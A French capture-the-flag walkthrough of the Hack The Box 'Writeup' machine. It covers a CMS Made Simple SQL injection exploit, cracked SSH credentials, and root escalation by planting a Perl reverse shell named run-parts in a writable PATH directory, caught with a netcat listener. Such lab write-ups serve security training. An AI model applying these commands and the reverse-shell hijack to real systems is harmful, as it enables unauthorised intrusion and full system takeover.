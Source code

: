 ```yaml
---
layout: post
title: HTB - Write Up
subtitle: Hack The Box - Linux Machine 
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [HTB, Linux, CMS Made Simple, SQLi, scp, run-parts, reverse shell, perl, CVE-2019-9053]
comments: false
---
```


1 - User.txt

~~~
root@Host-001:~# nmap 10.10.10.138
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-10 21:01 CEST
Nmap scan report for 10.10.10.138
Host is up (0.060s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 12.18 seconds
~~~

Les ports 80 http et 22 ssh sont ouverts.

Consulter robots.txt: http://10.10.10.138/robots.txt

On trouve:

~~~
# Disallow access to the blog until content is finished.
User-agent: * 
Disallow: /writeup/
~~~

Consulter http://10.10.10.138/writeup

Il y a plusieurs pages. On voit que l'url est http://10.10.10.138/writeup/index.php?page=writeup

On essaye avec page=flag sans résultat. On pense à du Local File Inclusion mais ne donne aucun résultat...

Wappalyser nous dis que la page utilise CMS Made Simple. La page d'admin est /admin. Ref: [https://hostpapasupport.com/log-log-cms-made-simple/](https://hostpapasupport.com/log-log-cms-made-simple/)

Essayons http://10.10.10.138/writeup/admin

Nous tombons sur une page d'authentification de type htaccess. On modifie le verbe GET mais pas possible de bypasser comme ça :( on essaye d'accéder à .htpasswd mais l'accès est interdit!

Il y a plusieurs exploits concernant CMSMS. Dans notre cas, un exploit intéressant est: [https://packetstormsecurity.com/files/152356/CMS-Made-Simple-SQL-Injection.html](https://packetstormsecurity.com/files/152356/CMS-Made-Simple-SQL-Injection.html)

Enregistrer l'exploit 'cmsmadesimple22-sql.py' et le lancer:

~~~
root@kali:~/Desktop# python cmsmadesimple22-sql.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlists/rockyou.txt
~~~

Résultat:

~~~
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
~~~

Ces credentials permettent de nous connecter au serveur via ssh:

~~~
root@Host-001:~# ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$ ls
user.txt
~~~

Nous avons accès au flag de l'usager. Passons à l'accès au compte root:

2 - Root.txt

Télécharger pspy: [https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s](https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s)

Envoyer le fichier sur le serveur:

~~~
root@kali:~/Desktop# scp pspy64s jkr@10.10.10.138:/home/jkr
jkr@10.10.10.138's password: 
pspy64s                                       100% 1129KB 172.5KB/s   00:06    
root@kali:~/Desktop#
~~~

Se connecter au serveur via SSH:

~~~
root@kali:~# ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct  8 08:06:30 2019 from 10.10.14.14
jkr@writeup:~$ ls
pspy64s  user.txt
jkr@writeup:~$ chmod +x pspy64s 
jkr@writeup:~$ ./pspy64s

Résultat:
(...)
2019/10/08 10:56:01 CMD: UID=0    PID=2685   | /usr/sbin/CRON 
2019/10/08 10:56:01 CMD: UID=0    PID=2686   | /usr/sbin/CRON 
2019/10/08 10:56:01 CMD: UID=0    PID=2687   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2019/10/08 10:56:02 CMD: UID=0    PID=2688   | sshd: jkr [priv]  
2019/10/08 10:56:02 CMD: UID=0    PID=2689   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2019/10/08 10:56:02 CMD: UID=0    PID=2690   | run-parts --lsbsysinit /etc/update-motd.d 
2019/10/08 10:56:02 CMD: UID=0    PID=2691   | /bin/sh /etc/update-motd.d/10-uname 
2019/10/08 10:56:02 CMD: UID=0    PID=2692   | sshd: jkr [priv]  
(...)
~~~

On remarque que le compte root appel 'run-parts' et que le PATH de root est PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

Ou est situé 'run-parts':

~~~
jkr@writeup:~$ which run-parts
/bin/run-parts
~~~

Les fichiers appelés par le shell le sont dans l'ordre du PATH. 'With a real shell the directories are searched in the order they are found in the path statement. So PATH="/a:/b/1:etc..." the /a will be looked at first.' Ref: [https://www.unix.com/shell-programming-and-scripting/95208-path-dircetory-search-order.html](https://www.unix.com/shell-programming-and-scripting/95208-path-dircetory-search-order.html)

Dans notre cas nous ne pouvons pas lire les dossiers /usr/local/sbin et /usr/local/bin mais nous pouvons écrire dedans:

~~~
jkr@writeup:~$ ls -la /usr/local
total 64
drwxrwsr-x 10 root staff  4096 Apr 19 04:11 .
drwxr-xr-x 10 root root   4096 Apr 19 04:11 ..
drwx-wsr-x  2 root staff 20480 Oct 10 15:09 bin
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 etc
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 games
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 include
drwxrwsr-x  4 root staff  4096 Apr 24 13:13 lib
lrwxrwxrwx  1 root staff     9 Apr 19 04:11 man -> share/man
drwx-wsr-x  2 root staff 12288 Oct 10 14:54 sbin
drwxrwsr-x  7 root staff  4096 Apr 19 04:30 share
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 src
~~~

Tentons de créer un reverse-shell dans /usr/local/sbin. 

Nous utilisons ici perl-reverse-shell de pentestmonkey Ref: [http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

Ce shell est disponible dans Kali Linux dans /usr/share/webshells/perl/
perl-reverse-shell.pl. Ref: [https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

Modifier le shell en mettant son adresse IP (celle du tunnel tun0) et en spécifiant le port d'écoute (Ici 1234). Cf: Ref.

Envoyer le shell sur le serveur:

~~~
root@Host-001:~/Bureau# scp perl-reverse-shell.pl jkr@10.10.10.138:/home/jkr
jkr@10.10.10.138's password: 
perl-reverse-shell.pl                         100% 3714   152.7KB/s   00:00  
~~~

Ouvrir une session netcat et écouter sur le port enregisté dans perl-reverse-shell.pl

~~~
root@Host-001:~/Bureau# nc -v -n -l -p 1234
~~~

Sur le serveur, renommer et envoyer le shell dans /usr/local
~~~
jkr@writeup:~$ ls
perl-reverse-shell.pl  user.txt
jkr@writeup:~$ cp perl-reverse-shell.pl run-parts
jkr@writeup:~$ ls
perl-reverse-shell.pl  run-parts  user.txt
jkr@writeup:~$ mv run-parts /usr/local/sbin
~~~

Attendre et regarder la console ou netcat a été lancé:

~~~
root@Host-001:~/Bureau# nc -v -n -l -p 1234
listening on [any] 1234 ...
connect to [10.10.15.65] from (UNKNOWN) [10.10.10.138] 41160
 14:52:54 up 1 min,  3 users,  load average: 0.08, 0.03, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
jkr      pts/0    10.10.15.65      14:51   22.00s  0.03s  0.03s -bash
jkr      pts/1    10.10.14.30      14:51   19.00s  0.00s  0.00s -bash
jkr      pts/2    10.10.15.154     14:52    4.00s  0.00s  0.00s top
Linux writeup 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux
uid=0(root) gid=0(root) groups=0(root)
/
/usr/sbin/apache: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd root
# ls
bin
root.txt
# cat root.txt
eeba47f60b48ef92b734f9b6198d7226
~~~

**Poursuivez avec :** [Oneliner Shells](https://0xss0rz.github.io/2020-05-10-Oneliner-shells/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).

